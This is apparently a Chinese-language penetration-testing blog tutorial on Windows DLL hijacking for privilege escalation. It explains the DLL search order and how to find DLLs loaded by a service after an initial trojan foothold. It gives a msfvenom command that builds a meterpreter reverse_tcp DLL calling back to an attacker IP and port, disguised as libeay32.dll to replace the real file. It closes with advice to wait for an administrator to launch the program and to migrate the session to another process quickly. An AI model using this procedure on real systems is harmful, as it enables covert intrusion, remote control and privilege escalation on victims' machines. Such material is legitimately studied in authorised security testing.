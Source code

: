 # dll劫持提权

## Windows10系统案例

Windows 程序启动的时候需要 DLL。如果这些 DLL 不存在，则可以通过在应用程序要查找的位置放置恶意 DLL 来提权。通常，Windows 应用程序有其预定义好的搜索 DLL 的路径。

它会根据下面的顺序进行搜索：

    1、应用程序加载的目录
    2、C:\Windows\System32
    3、C:\Windows\System
    4、C:\Windows
    5、当前工作目录 Current Working Directory，CWD
    6、在 PATH 环境变量的目录（先系统后用户）

程序运行一般会加载系统dll或本身程序自带的dll，如果我们将程序执行时需要加载的dll文件替换成程序，那么我们下次在启动程序时所加载的dll就是我们替换的那个木马程序了。

### 收集进程加载的dll

这里会出现一个问题，没有远程桌面我们如何收集，这里其实有个很简单的办法就是，通过上线普通木马后，看看能不能查看有存在哪些服务，然后找到相关服务本地安装，安装后使用火绒剑等工具进行查找加载的dll文件即可。

像系统文件加载的dll我们是动不了的，我们一般能懂的都是未知文件和数字签名文件。

![image-20230329105724047](https://s2.loli.net/2023/03/29/zVvd4Uq3hKIZpxN.png)

### MSF制作dll木马

这里我们选中libeay32.dll文件，我们就制作这个木马。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.20  lport=5566 -f dll >libeay32.dll
```

![image-20230329110128144](https://s2.loli.net/2023/03/29/cGA1YFhluzvM2t4.png)

### 替换dll文件

这里将生成的dll文件替换原本的dll。

<img src="https://s2.loli.net/2023/03/29/Ah36wfBVv8YHxd1.png" alt="image-20230329110325242" style="zoom: 80%;" />

### 运行软件

运行软件，不过需要注意的是，在实际环境中由于我未获取到桌面权限，所以需要等待管理员去运行，同时由于我们替换了dll文件，所以会导致管理员在运行软件的时候会出现无响应的情况，这时无法保证，管理员会卸载重新安装。

![image-20230329110745952](https://s2.loli.net/2023/03/29/3s4KaOQS2GYZUV5.png)

### 设置监听

这里设置监听，当管理员去运行软件的时候就会上线，像上面提到的，当软件不能用了，无法保证管理员不会卸载重装或者重启电脑，所以在获取权限后需要及时的移植到其它进程上面。
